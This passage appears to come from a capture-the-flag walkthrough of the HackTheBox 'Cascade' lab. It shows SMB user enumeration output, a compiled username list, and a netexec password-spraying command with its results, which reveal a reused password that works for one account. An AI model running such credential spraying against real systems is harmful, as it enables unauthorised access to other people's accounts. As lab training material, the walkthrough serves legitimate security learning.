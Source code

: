 ```
SMB         10.10.10.182    445    CASC-DC1         1120: CASCADE\Backup (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1121: CASCADE\s.hickson (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1122: CASCADE\j.goodhand (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1123: CASCADE\Temps (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1124: CASCADE\a.turnbull (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1125: CASCADE\WinRMRemoteWMIUsers__ (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1126: CASCADE\Remote Management Users (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1127: CASCADE\e.crowe (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1128: CASCADE\b.hanson (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1129: CASCADE\d.burman (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1130: CASCADE\BackupSvc (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1132: CASCADE\Factory (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1133: CASCADE\Finance (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1134: CASCADE\j.allen (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1135: CASCADE\i.croft (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1137: CASCADE\Audit Share (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1138: CASCADE\Data Share (SidTypeAlias)
```

Let's see if any other user is using the same password. We've seen this is [Cicada HTB](https://github.com/ring-buffer/Red_Team_Notes/blob/main/Windows-HTB-Boxes/Cicada%20HTB.md)  Making users.txt
```
# cat users.txt
cascade.local\arksvc
SMB cascade.local\s.smith
cascade.local\r.thompson
cascade.local\util
cascade.local\j.wakefield
cascade.local\s.hickson
cascade.local\j.goodhand
cascade.local\a.turnbull
cascade.local\e.crowe
cascade.local\b.hanson
cascade.local\d.burman
cascade.local\BackupSvc
cascade.local\j.allen
cascade.local\i.croft
cascade.local\CascGuest
```


```
# netexec smb 10.10.10.182 -u users -p 'rY4n5eva' --continue-on-success                                               
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\arksvc:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] SMB cascade.local\s.smith:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\util:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\j.wakefield:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\s.hickson:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\j.goodhand:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\a.turnbull:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\e.crowe:rY4n5eva STATUS_LOGON_FAILURE 
```